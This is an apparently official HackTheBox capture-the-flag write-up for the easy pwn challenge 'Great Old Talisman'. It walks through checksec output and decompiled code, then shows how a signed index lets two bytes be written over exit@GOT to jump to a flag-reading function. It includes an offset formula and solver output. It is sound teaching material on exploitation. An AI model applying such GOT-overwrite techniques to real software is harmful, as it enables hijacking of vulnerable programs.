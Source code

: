 ![](assets/banner.png)



<img src="assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="6">Great Old Talisman</font>

​		9<sup>th</sup> October 2023 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 



# Synopsis

Great Old Talisman is an easy difficulty challenge that features overwriting `exit@GOT` with the address of the function that reads the flag.

# Description

Zombies are closing in from all directions, and our situation appears  dire! Fortunately, we've come across this ancient and formidable Great Old Talisman, a source of hope and protection. However, it requires the infusion of a potent enchantment to unleash its true power.

## Skills Required

- `RelRO`, `GOT table`.

## Skills Learned

- Overwrite the address of a function in the `GOT table` with another address.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	FortifiedFortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   RW-RUNPATH   55) Symbols	  No	0
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary |
| **RelRO**  | **Partial** | Makes some binary sections **read-only** |

As we can see, there is no `PIE` and `RelRO` is `Partial` instead of `Full`. Also, the name **G**reat **O**ld **T**alisman, refers to `GOT`, hinting us that the challenge is most likely vulnerable to `GOT` overwrite.

The program's interface 

```console
              |
              |
              |
              |
              |
           ___|___ 
       .d$$$******$$$$c.
    .d$P'            '$$c
   $$$$$.           .$$$*$.
 .$$ 4$L*$$.     .$$Pd$  '$b
 $F   *$. '$$e.e$$' 4$F   ^$b
d$     $$   z$$$e   $$     '$.
$P     `$L$$P` `'$$d$'      $$
$$     e$$F       4$$b.     $$
$b  .$$' $$      .$$ '4$b.  $$
$$e$P'    $b     d$`    '$$c$F
'$P$$$$$$$$$$$$$$$$$$$$$$$$$$
 '$c.      4$.  $$       .$$
  ^$$.      $$ d$'      d$P
    '$$c.   `$b$F    .d$P'
      `4$$$c.$$$..e$$P'
          `^^^^^^^`'

This Great Old Talisman will protect you from the evil powers of zombies!

Do you want to enchant it with a powerful spell? (1 -> Yes, 0 -> No)

>> 1

Spell: hackthebox
```

### Disassembly

Starting with `main()`:

```c
void main(void)

{
  long in_FS_OFFSET;
  int local_14;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  printf(
        "\nThis Great Old Talisman will protect you from the evil powers of zombies!\n\nDo you want  to enchant it with a powerful spell? (1 -> Yes, 0 -> No)\n\n>> "
        );
  __isoc99_scanf(&DAT_00402376,&local_14);
  printf("\nSpell: ");
  read(0,talis + (long)local_14 * 8,2);
                    /* WARNING: Subroutine does not return */
  exit(0x520);
}
```

The challenge is pretty small and straightforward. There is a `scanf("%d", local_14);` that reads an integer and then a `read(0,talis + (long)local_14 * 8,2);`

### Debugging 

As we can see, there is no `return`, only `exit(0x520)`. Also, no overflow occurs anywhere, meaning the easiest way to proceed is by overwriting the address of `exit@GOT` with the address of `read_flag()`.

```c
void read_flag(void)

{
  ssize_t sVar1;
  long in_FS_OFFSET;
  char local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = open("./flag.txt",0);
  if (local_14 < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_14,&local_15,1);
    if (sVar1 < 1) break;
    fputc((int)local_15,stdout);
  }
  close(local_14);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function is the goal as it prints the flag. The only thing we need to understand to proceed, is what the `talis` global variable is and where it's stored. It's obvious that whatever we insert in the `scanf`, will be stored in `local_14`. After that, it reads up to 2 bytes in the address `talis` + `local_14 * 8`. Checking the address of `exit@GOT` and `talis` we see this:

```console
exit@GOT  : 0x404080
Talis addr: 0x4040a0
```

So, if we subtract the address of `exit@GOT` and `talis`, and divide them by `8`, we get the right offset to overwrite the `exit@GOT`.

```python
off = -(talis - exit) // 8
```

`PIE` is disabled and all the functions are known, making it easy to proceed with our exploit.

# Solution

```console
Running solver remotely at 0.0.0.0 1337

exit@GOT  : 0x404080
Talis addr: 0x4040a0

Flag --> HTB{f4k3_fl4g_4_t35t1ng}
```
